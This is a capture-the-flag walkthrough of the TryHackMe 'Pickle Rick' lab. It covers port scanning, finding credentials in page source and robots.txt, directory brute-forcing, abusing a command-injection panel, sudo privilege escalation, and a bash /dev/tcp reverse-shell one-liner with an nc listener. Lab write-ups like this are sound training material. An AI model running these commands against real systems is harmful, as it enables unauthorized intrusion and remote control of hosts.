# [Pickle Rick][1]
A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have two ports open: `22, 80`

> Let's check the webpage. The webpage is fascinating but nothing much to work with.

Checked the source code and found a `username`.



Let's check the `robots.txt` file.


> I found some gibberish which can be a password.

I tried connecting to the machine via `ssh` using credentials -> `R1ckRul3s:Wubbalubbadubdub` but its didn't work.

Also, I had a GoBuster running -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html`


> One interesting result here is **login.php**

I then visited `http://<IP>/login.php` and I found a login panel.


> I logged in with the credentials I got -> `R1ckRul3s:Wubbalubbadubdub` and it worked.

It seems like a Command Injection page. Let's try `ls -la`


> Seems like we got our first ingredient `Sup3rS3cretPicjk3Ingred.txt`.

So I just opened the file in the browser and it worked.



There is one more file which I found interesting was `clue.txt`


> Hmm, not much of a clue.

I then checked the `home` directory. I see two directories `ubuntu` and `rick`.



Let's check `rick` using `cd /home/rick; ls -la`

>  Baam! We have our second ingredient.

However, we cannot use `cat` or `head` or `tail`  as it is giving an error.


> Oh Rick! Why did you make things hard for yourselves!

But fortunately we can use `less` using `less /home/rick/second\ ingredient`



For third one I think we need to escalate privilege, it can be in `root` directory. First things first, let's check what programs we can run -> `sudo -l`


> Wow! We can run everything.

So, we can just do `sudo ls /root`


> YEAH! There is the third and the final ingredient.

Check the file using `less` command.



With this third ingredient, we helped RICK to make potion to transform back to HUMAN.

### via Shell

When we had the access to the command panel, we could run `sudo -l` first and check. As we have all the permission.

Search for privilege escalation via `bash` on the site GTFOBins. Check the Reverse Shell command on the [GTFOBins for bash][3].  

Before running the script in the command panel, start a `nc` listener -> `nc -lvnp 4444`.

Run the script -> `bash -c 'exec bash -i &>/dev/tcp/<IP>/4444 <&1'`



Now check your listener. You have a active connection.



Now you can run commands like `cat`, `head`, etc.

[1]: https://tryhackme.com/room/picklerick
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://gtfobins.github.io/gtfobins/bash/#reverse-shell
